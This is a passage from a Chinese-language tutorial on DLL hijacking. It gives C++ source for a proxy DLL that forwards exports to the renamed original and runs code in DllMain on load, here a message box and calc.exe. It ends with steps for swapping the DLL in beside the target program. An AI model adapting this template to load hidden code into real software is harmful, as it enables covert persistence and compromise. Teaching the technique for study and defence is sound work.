 	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 导出函数
	#pragma comment(linker, "/EXPORT:add=DllTestOrg.add,@1")
	#pragma comment(linker, "/EXPORT:divide=DllTestOrg.divide,@2")
	#pragma comment(linker, "/EXPORT:minus=DllTestOrg.minus,@3")
	#pragma comment(linker, "/EXPORT:multiply=DllTestOrg.multiply,@4")
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	
	
	
	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 入口函数
	BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
	{
		if (dwReason == DLL_PROCESS_ATTACH)
		{
			DisableThreadLibraryCalls(hModule);
	
			::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
			STARTUPINFO si = { sizeof(si) };
			PROCESS_INFORMATION pi;
			CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
		}
		else if (dwReason == DLL_PROCESS_DETACH)
		{
		}
		return TRUE;
	}
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


编译，将生成的dll重命名为被劫持的dll(DllTest.dll)，并放在被劫持的dll程序所在目录，将被劫持的dll重命名为```DllTestOrg.dll```用于给新生成的恶意dll调用。运行原exe，完成劫持：

先弹出OK:

![](images/12.jpg)
